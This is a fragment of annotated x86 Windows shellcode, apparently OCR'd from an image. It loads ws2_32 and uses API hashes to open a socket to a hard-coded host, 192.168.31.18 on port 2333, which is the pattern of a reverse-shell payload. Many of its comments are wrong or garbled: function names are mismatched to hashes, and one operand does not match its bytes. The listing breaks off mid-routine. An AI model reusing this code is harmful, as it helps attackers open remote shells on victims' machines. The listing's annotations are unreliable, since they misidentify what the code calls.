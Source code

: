 ```
59                      pop ecx                     ; Pop ECX
5a                      pop edx                     ; Pop EDX
51                      push ecx                    ; Push ECX
ff e0                   jmp eax                     ; Jump to EAX
58                      pop eax                     ; Pop EAX
5f                      pop edi                     ; Pop EDI
5a                      pop edx                     ; Pop EDX
8b 12                   mov edx, [edx]              ; Move value at EDX to EDX
e9 80 ff ff ff          jmp 0x85                    ; Jump to 0x85

; LoadLibrary and GetProcAddress for user32.dll
5d                      pop ebp                     ; Pop EBP
68 33 32 00 00          push 0x3233                 ; Push 0x3233 ('23')
68 77 73 32 5f          push 0x5f327377             ; Push 'ws2_32'
54                      push esp                    ; Push ESP
68 4c 77 26 07          push 0x72674c               ; Push 'KERNEL32.DLL'
89 e8                   mov eax, esp                ; Move ESP to EAX
ff d0                   call eax                    ; Call EAX
b8 90 01 00 00          mov eax, 0x190              ; Move 0x190 to EAX
29 c4                   sub esp, eax                ; Subtract EAX from ESP
54                      push esp                    ; Push ESP
50                      push eax                    ; Push EAX
68 29 80 6b 00          push 0x6b8029               ; Push 'GetModuleHandleA'
ff d5                   call ebp                    ; Call EBP
6a 0a                   push 0xa                    ; Push 0xA
68 c0 a8 1f 12          push 0x121fa8c0             ; Push 192.168.31.18
68 02 00 09 1d          push 0x1d090002             ; Push 2333
89 e6                   mov esi, esp                ; Move ESP to ESI
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
50                      push eax                    ; Push EAX
40                      inc eax                     ; Increment EAX
50                      push eax                    ; Push EAX
40                      inc eax                     ; Increment EAX
50                      push eax                    ; Push EAX
68 ea 0f df e0          push 0xe0df0fea             ; Push 'InternetConnectA'
ff d5                   call ebp                    ; Call EBP
97                      xchg eax, edi               ; Exchange EAX and EDI
6a 10                   push 0x10                   ; Push 0x10
56                      push esi                    ; Push ESI
57                      push edi                    ; Push EDI
68 99 a5 74 61          push 0x6174a599             ; Push 'bind'
ff d5                   call ebp                    ; Call EBP
85 c0                   test eax, eax               ; Test EAX
74 0a                   je 0x3a                     ; Jump if zero
ff 4e 08                dec dword [esi+0x8]         ; Decrement dword at [ESI+8]
75 ec                   jnz 0x2f                    ; Jump if not zero
e8 67 00 00 00          call 0x6c                   ; Call 0x6c
6a 00                   push 0x0                    ; Push 0
```
